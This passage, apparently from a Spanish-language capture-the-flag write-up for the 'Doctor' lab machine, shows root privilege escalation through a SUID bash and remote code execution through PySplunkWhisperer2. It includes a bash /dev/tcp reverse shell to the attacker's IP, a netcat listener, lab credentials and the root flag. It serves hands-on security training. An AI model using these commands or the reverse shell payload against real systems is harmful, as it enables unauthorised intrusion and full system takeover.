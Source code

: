 Y funciono 

```bash
shaun@doctor:/$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Jun 18  2020 /bin/bash
shaun@doctor:/$ bash -p
bash-5.0# whoami
root
```

Pero bueno también  vamos a enviar una `reverse shell` para hacerlo de las 2 formas

```bash
❯ python3 PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.5 --username shaun --password Guitar123 --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpk4m9and8.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.5:8181/
10.10.10.209 - - [06/Jun/2023 17:49:03] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup

```

Recibimos la Shell

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.209] 58658
bash: cannot set terminal process group (1142): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# whoami
whoami
root
```

## Root flag 

```bash
root@doctor:/root# cat root.txt 
905ffe397f2d70f847125b838b172e63
```



